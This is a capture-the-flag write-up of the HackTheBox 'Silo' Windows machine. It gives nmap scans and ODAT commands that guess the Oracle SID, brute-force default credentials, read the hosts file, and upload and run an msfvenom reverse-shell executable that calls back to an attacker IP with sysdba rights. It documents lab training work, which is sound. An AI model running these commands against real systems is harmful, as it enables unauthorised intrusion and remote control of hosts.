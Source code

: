```yaml
---
layout: single
title: Silo
date: 2023-09-21 
toc: true
classes: wide
excerpt: "Solving Silo machine from HackTheBox."
header:
  teaser: /assets/images/hackthebox/silo/teaser.png
  teaser_home_page: true
categories:
  - machines
tags:
  - hackthebox
  - windows
---
```


![Silo](/assets/images/hackthebox/silo/teaser.png)

Silo is one of many HackTheBox Machines. In this case it is a windows machine with the purpose of learning how to assess a vulnerable Oracle service. According to HackTheBox, Silo focuses mainly on leveraging Oracle to obtain a shell and escalate privileges. It was intended to be completed manually using various tools, however Oracle Database Attack Tool greatly simplifies the process, reducing the difficulty of the machine substantially. 

In this write-up we will learn the basic usage of ODAT to compromise the machine.


# Recon

For the initial recon we will use the following **nmap** command to discover all open ports in the machine with a TCP SYN scan: 

```bash
sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 10.129.95.188 -oG allPorts
```

We see that the following ports are open: 80, 135, 139, 445, 1521, 5985, 47001, 49152, 49153, 49154, 49155, 49159, 49160, 49161, 49162. We do some further enumeration with nmap common scripts: 

```bash 
sudo nmap -p80,135,139,445,1521,5985,47001,49152,49153,49154,49155,49159,49160,49161,49162 -sCV -n -Pn 10.129.95.188 -oN portsInfo
```

Output:

```python
# Nmap 7.94 scan initiated Wed Sep 20 23:29:01 2023 as: nmap -p80,135,139,445,1521,5985,47001,49152,49153,49154,49155,49159,49160,49161,49162 -sCV -n -Pn -oN portsInfo 10.129.95.188
Nmap scan report for 10.129.95.188
Host is up (0.088s latency).

PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 8.5
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1521/tcp  open  oracle-tns   Oracle TNS listener 11.2.0.2.0 (unauthorized)
5985/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49159/tcp open  oracle-tns   Oracle TNS listener (requires service name)
49160/tcp open  msrpc        Microsoft Windows RPC
49161/tcp open  msrpc        Microsoft Windows RPC
49162/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: supported
| smb2-time: 
|   date: 2023-09-21T03:31:03
|_  start_date: 2023-09-21T00:11:32
| smb2-security-mode: 
|   3:0:2: 
|_    Message signing enabled but not required
|_clock-skew: mean: 1s, deviation: 0s, median: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep 20 23:31:09 2023 -- 1 IP address (1 host up) scanned in 128.07 seconds
```


We see one interesting port for Oracle (1521). This type of service can be attacked with ODAT (Oracle Database Attacking Tool). A detailed installation guide can be found in the github repository:  https://github.com/quentinhardy/odat

# Exploitation

## Step 1:  Find SID

The first step is to find the SID for the Oracle instance. SID is short for session id - a unique identifier for each session in a database. From the manual: "The system identifier (SID) is a unique name for an Oracle database instance on a specific host." This is a required parameter for the other commands we will use with ODAT. The following command is used to extract a valid SID: 

```bash
python3 odat.py sidguesser -s 10.129.95.188
```

![SID](/assets/images/hackthebox/silo/sid.png)

## Step 2: Account Bruteforce

Now that we have the SID, we need some valid credentials to continue with the attack. The default word-list used by ODAT is not the best, so we will use a word-list found inside the Metasploit Framework.  ODAT uses the format `user/password` for word-lists but metasploit's wordlist uses a space to separate users and passwords (`user password`). This can be easily fixed using the `tr` command to replace spaces for forward slashes and then we can execute the brute-force attack.

```bash
cat /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt | tr ' ' '/' > wordlist.txt

python3 odat.py passwordguesser -s 10.129.95.188 -d XE --accounts-file wordlist.txt
```

After a couple of minutes, the credentials `scott/tiger` are evaluated as valid.

## Step 3: Upload Payload

With ODAT we can interact with the victim's windows filesystem. For example, we can download the hosts file in our machine:

```bash
python3 odat.py utlfile -s 10.129.95.188 -d XE -U 'scott' -P 'tiger' --getFile /Windows/System32/Drivers/etc/ hosts hosts --sysdba
```

![getFile](/assets/images/hackthebox/silo/getFile.png)

In the same way, we can upload a malicious payload created with **msfvenom** to obtain a reverse shell: 

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.188 LPORT=443 -a x64 --platform Windows -f exe -o shell.exe

python3 odat.py utlfile -s 10.129.95.188 -d XE -U 'scott' -P 'tiger' --putFile /Windows/Temp shell.exe shell.exe --sysdba

```

**Note**: It's important to use the `--sysdba` option to gain the appropriate privileges on the victim machine. You can think of sysdba as root for Oracle.

## Step 4: Execute Payload

Finally we can execute the payload:

```bash
python3 odat.py externaltable -s 10.129.95.188 -d XE -U 'scott' -P 'tiger' --exec /Windows/Temp shell.exe --sysdba
```

Admin privileges are automatically obtained:

![root](/assets/images/hackthebox/silo/root.png)

And we can retrieve the flags:

![flags](/assets/images/hackthebox/silo/flags.png)



